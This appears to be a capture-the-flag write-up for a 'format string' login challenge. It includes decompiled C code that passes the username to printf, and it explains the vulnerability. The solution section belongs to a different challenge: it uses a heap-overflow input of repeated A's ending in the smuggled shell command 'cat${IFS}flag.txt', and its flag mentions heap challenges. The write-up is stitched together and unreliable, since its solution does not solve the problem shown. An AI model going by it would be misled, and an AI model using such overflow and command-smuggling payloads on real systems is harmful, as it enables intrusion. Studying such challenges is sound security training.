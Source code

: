 # Log Me In!

Only the executable file was given. This was tagged as a "format string" challenge.

We run the program first.

```
user = 0x4202a0
Enter your username:
cookie
Enter password for user: cookie
cookie
Invalid login information.
```
The decompiled code from Ghidra is as follows; I have done some minor changes to improve the readability.

```
int main(void) { 
  char* __ptr = calloc(1, 40);
  printf("user = %p\n",__ptr);
  puts("Enter your username:");
  fgets((__ptr + 4), 20, stdin);
  printf("Enter password for user: ");
  printf((__ptr + 4));
  fgets((__ptr + 24), 20, stdin);
  if (*__ptr == 0) {
    puts("Invalid login information.");
  }
  else {
    puts("Successfully logged in!");
    giveFlag();
  }
  free(__ptr);
  return 0;
}
```

The code, though appearing to be very simple, did take me a while to fully understand.

Firstly, ```__ptr``` is a pointer to a buffer allocated on the heap, and ```calloc()``` will set the entire buffer to zeroes. Its address is shown, which is important later on.

A prompt for the username is then called, and ```fgets()``` writes the username to an offset 4 bytes off the memory address up to a total of 20 bytes, and the password fills up the remaining buffer.

This means that the first 4 bytes of the buffer are empty (from ```calloc()```), and logging in is not possible unless the first 4 bytes are written to.

### The exploit 
A good explanation of the string formatting vulnerability can be found [here](https://www.youtube.com/watch?v=2HxyGWD1htg). Simply put, format specifiers in ```printf()``` can be used to read and write to values off the stack, or elsewhere.



**Solution**
```
username at 0x57fde008
shell at 0x57fde040
Enter username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcat${IFS}flag.txt
Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAcat${IFS}flag.txt. Your shell is cat${IFS}flag.txt.
```

**Flag**
```
flag{heap_challenges_are_not_as_scary_as_most_people_think}
```
